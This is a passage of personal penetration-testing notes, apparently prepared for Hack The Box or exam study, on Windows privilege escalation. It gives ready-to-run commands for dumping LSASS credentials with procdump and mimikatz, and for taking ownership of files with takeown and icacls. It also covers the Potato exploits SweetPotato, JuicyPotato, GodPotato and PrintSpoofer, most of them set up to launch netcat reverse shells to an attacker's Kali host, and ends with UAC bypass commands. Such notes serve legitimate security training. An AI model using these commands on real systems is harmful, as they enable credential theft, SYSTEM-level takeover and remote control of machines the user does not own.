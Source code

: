 		- With `SeDebugPrivilege`
			- `procdump.exe -accepteula -ma lsass.exe lsass.dmp`
			- Then, run `mimikatz` (run log so output is in txt) and run `sekurlsa::minidump lsass.dmp`
		- With `SeTakeOwnershipPrivilege`
			- Outlined here: https://academy.hackthebox.com/module/67/section/642
			- We can essentially take ownership of any file, folder, or registry key
			- Abused with `takeown /f '{path_to_object}'`
				- This gives us ownership, but we might still not have the proper ACLs, so we need to give them to ourself
				- `icacls '{path_to_object}' /grant {our_user}:F`
	- Named pipes:
		- Allow unrelated processes to share data between each other
		- If we can coerce a a privileged process into connecting to a controlled named pipe, we can capture the authentication and use `SeImpersonatePrivilege` to impersonate the user account and perform operations in their security context
			- SweetPotato can be used to reliably exploit this it seems; use the nc reverse shell below
	- General Potato information:
		- https://jlajara.gitlab.io/Potatoes_Windows_Privesc
	- SweetPotato
		- Apparently just the best potato
		- https://github.com/CCob/SweetPotato
			- Compiled pretty painlessly after cloning the repo in Visual Studio 2022
		- `.\SweetPotato.exe -e EfsRpc -p {path_to_nc.exe} -a "{kali_ip} {listening_port} -e cmd"` works pretty well
	- JuicyPotato
		- https://github.com/ohpe/juicy-potato/releases/tag/v0.1
		- `C:\Users\Public\JuicyPotato.exe -l 1337 -p C:\Windows\system32\cmd.exe -a "/c {nc.exe_path} {kali_IP} {kali_port} -e cmd.exe" -t *`
	- GodPotato
		- Can use for a reverse shell `GodPotato.exe -cmd "cmd /c reverse.exe"`
			- `GodPotato.exe -cmd "powershell -e ...."`
		- Can also use it to create a new administrative user, then rdp/winrm in
	- Sigma Potato (PrintSpoofer)
		- Coerces NT AUTHORITY/SYSTEM into a named pipe
		- Can be used when we have a user with `SeImpersonatePrivilege`
		- `wget https://github.com/tylerdotrar/SigmaPotato/releases/download/v1.2.6/SigmaPotato.exe`
		- `.\PrintSpoofer64.exe -i -c powershell.exe`

**Bypassing UAC**
- If we're a local administrator on a system, but get an `Access is denied.` error while a attempting to perform a privileged action, it's likely UAC
- Windows User Account Control can be bypassed using many different techniques
- Check if it's running with `REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA`
	- Check level with `REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin` (5 being the highest level)
- The bypasses/escalations we can do depend on our Windows version number, which we can get with `[environment]::OSVersion.Version` 
- The [UACME](https://github.com/hfiref0x/UACME) project maintains a list of bypasses per Windows version number
- The [Bypass UAC](https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC) powershell script can automate this
	- `Import-Module .\Bypass-UAC.ps1` and then `Bypass-UAC -Method UacMethodSysprep`
